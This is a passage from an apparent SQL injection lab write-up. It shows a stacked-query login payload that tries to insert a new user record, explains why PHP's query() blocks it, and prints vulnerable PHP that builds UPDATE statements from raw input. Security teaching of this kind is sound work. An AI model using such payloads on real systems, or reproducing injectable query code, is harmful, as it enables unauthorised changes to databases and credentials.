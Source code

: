 ```html
  </body>
</html>
```

### Task 2.3

For this task, we need to try to run two SQL statements by exploiting the vulnerabilities in the previous tasks. we can try to login as admin and add another user in the same input by trying the following:

```php
admin'; INSERT INTO `credential` VALUES  (7,'Dani','60000',20000,'9/20','10211002','a','a','a','a','7110eda4d09e062aa5e4a390b0a572ac0d2c0220') --
// password is 1234 in SHA1
```

But unfortunately, this returns a SQL statement error.

After inspecting the source code for the webpage, we can retrieve the part that queries the database:

```php
// create a connection
$conn = getDB();
// Sql query to authenticate the user
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
if (!$result = $conn->query($sql)) {
  echo "</div>";
  echo "</nav>";
  echo "<div class='container text-center'>";
  die('There was an error running the query [' . $conn->error . ']\n');
  echo "</div>";
}
```

And here we check that to query the database, the author used `query()`. After checking the PHP documentation, it is not possible to run multiple queries in a `query()` statement. To run multiple queries we would need to replace it with a `multi_query()` function call.

Source: [https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php)

### Task 3.1

In the task 3 is asked to do an SQL Injection Attack on an UPDATE statement. This attack aims to change the data in the database. More specifically, a user through the edit profile page changes his own salary. To exploit this vulnerability, we start by taking a look at the given PHP code implemented in the given unsafe_edit_backend.php file:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```
